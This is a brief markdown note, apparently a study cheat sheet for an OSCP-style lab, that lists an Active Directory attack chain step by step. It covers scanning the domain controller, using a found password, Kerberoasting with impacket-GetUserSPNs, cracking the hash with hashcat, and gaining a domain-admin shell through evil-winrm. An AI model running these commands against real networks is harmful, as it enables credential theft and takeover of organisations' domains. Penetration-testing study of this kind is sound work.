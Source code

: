 # Active_Directory

## Tools

### BloodHound

## persistence

## Tips

1.
1. 扫描DC
proxychains nmap -sT 10.1.1.1
135、445、139、389、88、636、539
powerview

2. Bob域账号、密码
win10: c:\users\bob\desktop\secret.txt
oscp\bob : Passw0rd

3. SPN密码破解
proxychains impacket-GetUserSPNs oscp.com/bob:Passw0rd -dc-ip 10.1.1.1 -request
hash.txt: $krb$sqladmin$asdasdadasdasdadadasdasdasdasdasdasdasdasdasd

4. 密码爆破（sqladmin）
hashcat -m 13100 hash.txt rockyou.txt -O

5. 登录DC
sqladmin -> Domain admins
impacket-psexec 、impacket-smbxec、wmic、evil-winrm（5985）
proxychains evil-winrm -u sqladmin -p Passw0rd -i 10.1.1.1